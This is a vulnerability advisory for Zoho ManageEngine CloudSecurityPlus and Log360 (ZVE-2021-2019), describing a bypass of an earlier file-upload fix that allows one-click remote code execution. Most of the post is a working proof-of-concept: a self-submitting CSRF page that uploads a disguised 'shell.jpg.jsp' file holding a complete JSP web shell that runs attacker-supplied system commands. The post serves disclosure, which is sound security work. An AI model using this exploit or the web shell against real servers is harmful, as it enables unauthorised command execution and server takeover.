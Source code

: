```yaml
---
layout: post
title:  "Zoho ManageEngine CloudSecurityPlus - Remote Code Execution via Security Misconfiguration"
tag: advisory
excerpt_separator: <!--more-->

---
```


Zoho ManageEngine CloudSecurityPlus before Build 4117 allows execution of arbitrary code by overwriting BCP file.  
<!--more-->

### **Identifiers**
 - ZVE-2021-2019

### **Affected Products & Versions**
 - CloudSecurityPlus - 4.1.1.7
 - Log360 - 5.2.2

### **Affected Instance(s)**
 - /WC/ADSPersonalize.do?mTCall=updatePersonalizeSettings

### **Advisory URL**
 - Not Available from Vendor

### **Technical details**
It was observed that, to fix the [CVE-2021-40175](https://sahildhar.github.io/blogpost/Zoho-ManageEngine-Log360-RCE-via-Arbitrary-File-Upload/) issue, the security configurations gets applied to url paths only but not on the struts action of the affected endpoint. This allows an attacker to bypass the mitigations applied for [CVE-2021-40175](https://sahildhar.github.io/blogpost/Zoho-ManageEngine-Log360-RCE-via-Arbitrary-File-Upload/) issue, there by executing arbitrary code by uploading malicious files.


### **Impact**:
The impact in this case is 1-click RCE, as the affected endpoints reqiured for exploitation lacks CSRF protection as well.


### **Root Cause Analysis**:

In the following code-snippets from `security.xml` file, observe that the application applies custom security configuration via URL paths.

  ```xml
  <url path="/RestAPI/WC/ADSPersonalize" duration="1" threshold="10" lock-period="1" method="get,post" dynamic-params="true" csrf="true">
    <file name="LOGO_PATH" content-type-name="image" max-size="5000" allowed-extensions="gif,jpeg,jpg,png,bmp">
        <filename regex="customFileNameFilter" max-len="255" />
    </file>
    <file name="FAVICON_PATH" content-type-name="image" max-size="5000" allowed-extensions="ico">
        <filename regex="customFileNameFilter" max-len="255" />
    </file>
    <param name="BROWSER_TITLE" type="String" max-len="-1" />
  </url>
```

The above configuration can bypassed by accessing the struts action route directly.

### **Exploitation**:
Following POC exploit code when executed will write a jsp file under `http://<endpoint_ip>/images/adsf/common/logos/` folder.

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/log360server\/WC\/ADSPersonalize.do?mTCall=updatePersonalizeSettings", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------14802732823662");
        xhr.withCredentials = true;
        var body = "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"LOGO_PATH\"; filename=\"shell.jpg.jsp\"\r\n" + 
          "Content-Type: image/jpeg\r\n" + 
          "\r\n" + 
          "\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x01,\x01,\x00\x00\xff\xe1\x00fExif\x00\x00MM\x00*\x00\x00\x00\x08\x00\x04\x01\x1a\x00\x05\x00\x00\x00\x01\x00\x00\x00\x3e\x01\x1b\x00\x05\x00\x00\x00\x01\x00\x00\x00F\x01(\x00\x03\x00\x00\x00\x01\x00\x02\x00\x00\x011\x00\x02\x00\x00\x00\x10\x00\x00\x00N\x00\x00\x00\x00\x00\x00\x01,\x00\x00\x00\x01\x00\x00\x01,\x00\x00\x00\x01paint.ne\x84\xff\x00\xf0\xc3\xdf\xf0\x8f\x7f\xc2\xcf\xf8\x0f\xf1\x7f\xe1\xe7\xf6\xff\x00\xfc4\xb7\xf6\xb7\xf6\x1f\xfc&\xbf\x0f\xbcC\xe1\xaf\xed\x8f\xec\xaf\xf8P\x1ag\xf6\x9f\xf6g\xf6\x9f\xdb\x7f\xb3\xff\x00\xb4\xb4\xff\x00\xb6y\x1ff\xfbm\xa7\x99\xe7\xc6P\x07\xff\xd9\r\n" + 
          "\x3c%@ page import=\"java.util.*,java.io.*\"%\x3e\r\n" + 
          "\x3c%\r\n" + 
          "%\x3e\r\n" + 
          "\x3cHTML\x3e\x3cBODY\x3e\r\n" + 
          "Commands with JSP\r\n" + 
          "\x3cFORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"\x3e\r\n" + 
          "\x3cINPUT TYPE=\"text\" NAME=\"cmd\"\x3e\r\n" + 
          "\x3cINPUT TYPE=\"submit\" VALUE=\"Send\"\x3e\r\n" + 
          "\x3c/FORM\x3e\r\n" + 
          "\x3cpre\x3e\r\n" + 
          "\x3c%\r\n" + 
          "if (request.getParameter(\"cmd\") != null) {\r\n" + 
          "    out.println(\"Command: \" + request.getParameter(\"cmd\") + \"\x3cBR\x3e\");\r\n" + 
          "    Process p;\r\n" + 
          "    if ( System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") != -1){\r\n" + 
          "        p = Runtime.getRuntime().exec(\"cmd.exe /C \" + request.getParameter(\"cmd\"));\r\n" + 
          "    }\r\n" + 
          "    else{\r\n" + 
          "        p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));\r\n" + 
          "    }\r\n" + 
          "    OutputStream os = p.getOutputStream();\r\n" + 
          "    InputStream in = p.getInputStream();\r\n" + 
          "    DataInputStream dis = new DataInputStream(in);\r\n" + 
          "    String disr = dis.readLine();\r\n" + 
          "    while ( disr != null ) {\r\n" + 
          "    out.println(disr);\r\n" + 
          "    disr = dis.readLine();\r\n" + 
          "    }\r\n" + 
          "}\r\n" + 
          "%\x3e\r\n" + 
          "\x3c/pre\x3e\r\n" + 
          "\x3c/BODY\x3e\x3c/HTML\x3e\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"BROWSER_TITLE\"\r\n" + 
          "\r\n" + 
          "ManageEngine Log360\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"FAVICON_PATH\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"ENABLE_FORGOT_PWD\"\r\n" + 
          "\r\n" + 
          "true\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"SELECT_LANGUAGE\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"TIME_ZONE\"\r\n" + 
          "\r\n" + 
          "Asia/Muscat\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"DATE_TIME_FORMAT\"\r\n" + 
          "\r\n" + 
          "yyyy/MM/dd HH:mm:ss\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"THEME_COLOR\"\r\n" + 
          "\r\n" + 
          "green\r\n" + 
          "-----------------------------14802732823662--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

In the following screenshot, observe that the application executes the jsp code on the server.
![](/assets/images/ZVE-2021-2019/1.png)

### **Recommendation**:
Enforce the security configuration for the affected endpoint.